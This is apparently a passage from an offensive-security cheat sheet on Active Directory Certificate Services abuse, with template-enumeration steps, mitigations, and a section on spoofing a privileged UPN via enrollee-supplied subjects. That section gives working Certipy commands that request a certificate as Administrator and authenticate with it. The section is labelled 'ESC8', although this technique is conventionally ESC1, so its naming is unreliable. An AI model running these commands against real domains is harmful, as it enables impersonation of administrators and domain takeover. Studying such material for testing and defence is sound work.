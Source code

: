 ## To Identify:
- Use Certipy or Certify to find templates with:
  - Broad or missing EKUs (e.g., `Any Purpose`)
  - `ENROLLEE_SUPPLIES_SUBJECT = True`
- Test certificate validation behavior of services:
  - Some may accept any cert issued by a trusted CA

```bash
certipy-ad find -u user -p pass -dc-ip <dc-ip>
```

## Mitigation:
- Define strict CTLs for each service requiring client authentication
- Enforce EKU checking on services (e.g., LDAP, PKINIT)
- Avoid issuing certificates with `Any Purpose` EKU
- Audit templates and their EKUs regularly

---

# ESC8 – Vulnerable Certificate Template + DNS Name / SAN Spoofing
Abusing certificate templates that allow attackers to supply arbitrary Subject Alternative Names (SANs) or DNS names, which can be used to spoof the identity of other users or services.

## Requirements:
- A certificate template exists that:
  - Allows `ENROLLEE_SUPPLIES_SUBJECT = True`
  - Includes `Client Authentication` EKU
- You have enroll rights on the template
- You can specify a custom UPN or DNS SAN when requesting a certificate

## Impact:
You can request a certificate that contains the UPN or DNS name of a privileged account (e.g., `Administrator@domain.local`). When used for authentication (e.g., PKINIT), services treat you as that user.

## Example:
### Certipy:
```bash
# Request cert with spoofed UPN for Administrator
certipy-ad req -u attacker -p password \
  -template SpoofableTemplate \
  -ca 'ca.domain.local\CA-NAME' \
  -upn 'Administrator@domain.local' \
  -pfx admin.pfx

# Authenticate using spoofed identity
certipy-ad auth -pfx admin.pfx
```
